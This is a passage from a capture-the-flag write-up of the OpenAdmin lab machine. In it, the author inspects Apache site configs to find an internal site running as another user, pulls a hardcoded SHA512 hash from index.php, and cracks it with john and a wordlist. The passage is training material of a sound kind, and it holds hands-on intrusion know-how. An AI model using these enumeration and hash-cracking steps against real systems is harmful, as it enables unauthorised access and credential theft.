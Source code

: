 From nmap scan, I know that Apache is running for web pages. So I checked `site-enabled` under the Apache.

```bash
jimmy@openadmin:/var/www/internal$ ls /etc/apache2/sites-enabled
internal.conf  openadmin.conf

jimmy@openadmin:/var/www/internal$ cat /etc/apache2/sites-enabled/internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

It shows that the site is running under the user `joanna` at port 52846. You can read the documentation here (http://mpm-itk.sesse.net/).

I will copy basically what is `AssignUserID`.

```markdown
`AssignUserID`: Takes two parameters, uid and gid (or really, user name and group name; use “#<uid>” if you want to specify a raw uid); specifies what uid and gid the vhost will run as (after parsing the request etc., of course). Note that if you do not assign a user ID, the default one from Apache will be used.
```

When I read `index.php` found a hardcoded hash.

```bash
jimmy@openadmin:/var/www/internal$ cat index.php
...
if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
...
```

From the code, I know it is SHA512. I tried `hashcat` but does not work ???

So I use `john` instead.

```bash
ghost@localhost [00:26:39] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % john hash.joanna --format=Raw-SHA512 -w=/usr/share/wordlists/rockyou.txt --rules=jumbo
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=6
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

Revealed         (?)

1g 0:00:00:01 DONE (2022-11-14 00:27) 0.7575g/s 11710Kp/s 11710Kc/s 11710KC/s Ricanchula..Reesenme
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
